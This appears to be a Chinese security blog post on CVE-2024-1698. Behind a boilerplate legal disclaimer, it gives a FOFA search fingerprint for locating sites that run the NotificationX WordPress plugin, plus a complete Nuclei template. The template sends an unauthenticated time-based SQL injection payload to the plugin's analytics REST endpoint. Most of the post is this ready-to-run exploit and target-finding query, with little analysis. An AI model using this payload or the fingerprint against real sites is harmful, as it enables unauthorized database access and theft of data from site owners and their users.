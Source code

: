 #  CVE-2024-1698   
A___bandon  漏洞猎人   2024-03-24 10:02  
  
<table><tbody style="outline: 0px;visibility: visible;"><tr style="outline: 0px;visibility: visible;"><td width="557" valign="top" height="184" style="padding: 0px;outline: 0px;word-break: break-all;hyphens: auto;visibility: visible;"><p style="outline: 0px;visibility: visible;"><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;text-decoration-style: solid;text-decoration-color: rgb(51, 51, 51);visibility: visible;"><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">免</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">责</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">声</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">明</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">：</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">所</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">涉</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">及</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">信</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">息</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">安</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">全</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">技</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">术</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">知</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">识</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">仅</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">供</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">参</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">考</span></span></strong><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;letter-spacing: 0.578px;text-decoration: line-through;visibility: visible;"></span></span></strong><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;text-decoration-style: solid;text-decoration-color: rgb(51, 51, 51);visibility: visible;"><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">和</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">学</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">习</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">之</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">并</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">不</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">构</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">成</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">明</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">示</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">或</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">暗</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">示</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">保</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">证</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">读</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">在</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">使</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">提</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">供</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">信</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">息</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">时</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">应</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">自</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">行</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">判</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">断</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">其</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">适</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">性</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">并</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">承</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">担</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">由</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">此</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">产</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">生</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">一</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">切</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">风</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">险</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">和</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">责</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">作</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">对</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">于</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">读</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">基</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">于</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">内</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">容</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">所</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">做</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">出</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">行</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">为</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">或</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">决</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">定</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">不</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">承</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">担</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">责</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">在</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">情</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">况</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">下</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">作</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">不</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">对</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">因</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">使</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">内</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">容</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">而</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">导</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">致</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">直</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">接</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">、</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">间</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">接</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">、</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">特</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">殊</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">或</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">后</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">果</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">性</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">损</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">失</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">承</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">担</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">责</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">读</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">在</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">使</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span></span></strong><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;text-decoration-style: solid;text-decoration-color: rgb(51, 51, 51);visibility: visible;"></span></strong><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;text-decoration-style: solid;text-decoration-color: rgb(51, 51, 51);visibility: visible;"><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">内</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">容</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">时</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">应</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">当</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">遵</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">守</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">当</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">地</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">法</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">律</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">法</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">规</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">并</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">保</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">证</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">不</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">违</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">反</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">相</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">关</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">法</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">律</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">法</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">规</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span></span></strong></p></td></tr></tbody></table>  
  
  
  
影响版本  
  
  
body="/wp-content/plugins/notificationx"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9eVcaiaJyjJUNKDXPe1AMRSavRLiaaet2l6ichia3libWJozarmRK6wsjZulcicqbj44RHjv13SKm6TWYxCQFuibFmI6g/640?wx_fmt=png&from=appmsg "")  
  
  
poc&exp  
```
id: CVE-2024-1698

info:
  name: NotificationX <= 2.8.2 - SQL Injection
  author: DhiyaneshDk
  severity: critical
  description: |
    The NotificationX - Best FOMO, Social Proof, WooCommerce Sales Popup & Notification Bar Plugin With Elementor plugin for WordPress is vulnerable to SQL Injection via the 'type' parameter in all versions up to, and including, 2.8.2 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.
  reference:
    - https://plugins.trac.wordpress.org/changeset/3040809/notificationx/trunk/includes/Core/Database.php
    - https://plugins.trac.wordpress.org/changeset/3040809/notificationx/trunk/includes/Core/Rest/Analytics.php
    - https://www.wordfence.com/threat-intel/vulnerabilities/id/e110ea99-e2fa-4558-bcf3-942a35af0b91?source=cve
    - https://github.com/fkie-cad/nvd-json-data-feeds
    - https://nvd.nist.gov/vuln/detail/CVE-2024-1698
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    cvss-score: 9.8
    cve-id: CVE-2024-1698
    epss-score: 0.00045
    epss-percentile: 0.12615
  metadata:
    verified: true
    max-request: 1
    fofa-query: body="/wp-content/plugins/notificationx"
  tags: cve,cve2024,wpscan,wordpress,wp-plugin,notificationx,sqli

http:
  - raw:
      - |
        @timeout 10s
        POST /wp-json/notificationx/v1/analytics HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json

        {"nx_id": "1","type": "clicks`=1 and 1=sleep(5)-- -"}

    matchers:
      - type: dsl
        dsl:
          - 'duration>=5'
          - 'status_code == 200'
          - 'contains(body, "{\"success\":true}")'
          - 'contains(header, "application/json")'
        condition: and
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/9eVcaiaJyjJUH41ow46vKhge3WzNajaArtTNRUnibe3m0OLwQ2DrMA8j8PPGKIalnRUwicTLGYMwhkfejIib6tPnIQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9eVcaiaJyjJUH41ow46vKhge3WzNajaArNT83xSnTuhw1XLjkeYIuIQ8041dMaD2IsPFhtVfNNYia3bQWbxxuVbA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
